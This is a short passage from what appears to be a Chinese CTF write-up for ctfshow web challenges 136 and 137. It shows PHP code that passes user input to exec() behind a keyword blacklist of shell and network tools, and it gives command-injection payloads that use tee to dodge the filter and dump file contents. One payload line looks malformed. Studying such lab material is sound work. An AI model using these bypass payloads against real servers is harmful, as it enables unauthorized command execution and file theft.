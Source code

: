 ```
?F=`$F` ;cp flag.php 2.txt;
?F=`$F` ;uniq flag.php>4.txt;
```



### web136

```
 <?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?> 
```

虽然过滤了很多，但是在linux中我们可以用tee写文件

**payload**

```
ls|tee 1.txt
ls / |tee 1.txt
cat /f* |1.txt
```



### web137

```
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}



call_user_func($_POST['ctfshow']); 
```
